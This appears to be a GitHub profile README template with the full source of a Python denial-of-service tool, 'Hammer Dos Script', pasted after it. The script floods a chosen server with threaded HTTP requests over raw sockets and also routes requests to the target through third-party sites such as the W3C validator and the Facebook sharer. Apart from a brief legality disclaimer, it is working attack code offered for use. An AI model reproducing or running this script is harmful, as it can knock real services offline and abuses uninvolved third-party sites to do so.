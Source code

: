 - 👋 Hi, I’m @Unbrela
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Unbrela/Unbrela is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->#!/usr/bin/python3
# -*- coding: utf-8 -*-

# python 3.3.2+ Hammer Dos Script v.1
# by Can Yalçın
# only for legal purpose


from queue import Queue
from optparse import OptionParser
import time,sys,socket,threading,logging,urllib.request,random

def user_agent():
	global uagent
	uagent=[]
	uagent.append("Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.0) Opera 12.14")
	uagent.append("Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:26.0) Gecko/20100101 Firefox/26.0")
	uagent.append("Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)")
	uagent.append("Mozilla/5.0 (Windows NT 6.2) AppleWebKit/535.7 (KHTML, like Gecko) Comodo_Dragon/16.1.1.0 Chrome/16.0.912.63 Safari/535.7")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)")
	uagent.append("Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1")
	return(uagent)


def my_bots():
	global bots
	bots=[]
	bots.append("http://validator.w3.org/check?uri=")
	bots.append("http://www.facebook.com/sharer/sharer.php?u=")
	return(bots)


def bot_hammering(url):
	try:
		while True:
			req = urllib.request.urlopen(urllib.request.Request(url,headers={'User-Agent': random.choice(uagent)}))
			print("\033[94mbot is hammering...\033[0m")
			time.sleep(.1)
	except:
		time.sleep(.1)


def down_it(item):
	try:
		while True:
			packet = str("GET / HTTP/1.1\nHost: "+host+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((host,int(port)))
			if s.sendto( packet, (host, int(port)) ):
				s.shutdown(1)
				print ("\033[92m",time.ctime(time.time()),"\033[0m \033[94m <--packet sent! hammering--> \033[0m")
			else:
				s.shutdown(1)
				print("\033[91mshut<->down\033[0m")
			time.sleep(.1)
	except socket.error as e:
		print("\033[91mno connection! server maybe down\033[0m")
		#print("\033[91m",e,"\033[0m")
		time.sleep(.1)


def dos():
	while True:
		item = q.get()
		down_it(item)
		q.task_done()


def dos2():
	while True:
		item=w.get()
		bot_hammering(random.choice(bots)+"http://"+host)
		w.task_done()


def usage():
	print (''' \033[92m	Hammer Dos Script v.1 http://www.canyalcin.com/
	It is the end user's responsibility to obey all applicable laws.
	It is just for server testing script. Your ip is visible. \n
	usage : python3 hammer.py [-s] [-p] [-t]
	-h : help
	-s : server ip
	-p : port default 80
	-t : turbo default 135 \033[0m''')
	sys.exit()


def get_parameters():
	global host
	global port
	global thr
	global item
	optp = OptionParser(add_help_option=False,epilog="Hammers")
	optp.add_option("-q","--quiet", help="set logging to ERROR",action="store_const", dest="loglevel",const=logging.ERROR, default=logging.INFO)
	optp.add_option("-s","--server", dest="host",help="attack to server ip -s ip")
	optp.add_option("-p","--port",type="int",dest="port",help="-p 80 default 80")
	optp.add_option("-t","--turbo",type="int",dest="turbo",help="default 135 -t 135")
	optp.add_option("-h","--help",dest="help",action='store_true',help="help you")
	opts, args = optp.parse_args()
	logging.basicConfig(level=opts.loglevel,format='%(levelname)-8s %(message)s')
	if opts.help:
		usage()
	if opts.host is not None:
		host = opts.host
	else:
		usage()
	if opts.port is None:
		port = 80
	else:
		port = opts.port
	if opts.turbo is None:
		thr = 135
	else:
		thr = opts.turbo


# reading headers
global data
headers = open("headers.txt", "r")
data = headers.read()
headers.close()
#task queue are q,w
q = Queue()
w = Queue()


if __name__ == '__main__':
	if len(sys.argv) < 2:
		usage()
	get_parameters()
	print("\033[92m",host," port: ",str(port)," turbo: ",str(thr),"\033[0m")
	print("\033[94mPlease wait...\033[0m")
	user_agent()
	my_bots()
	time.sleep(5)
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((host,int(port)))
		s.settimeout(1)
	except socket.error as e:
		print("\033[91mcheck server ip and port\033[0m")
		usage()
	while True:
		for i in range(int(thr)):
			t = threading.Thread(target=dos)
			t.daemon = True  # if thread is exist, it dies
			t.start()
			t2 = threading.Thread(target=dos2)
			t2.daemon = True  # if thread is exist, it dies
			t2.start()
		start = time.time()
		#tasking
		item = 0
		while True:
			if (item>1800): # for no memory crash
				item=0
				time.sleep(.1)
			item = item + 1
			q.put(item)
			w.put(item)
		q.join()
		w.join()
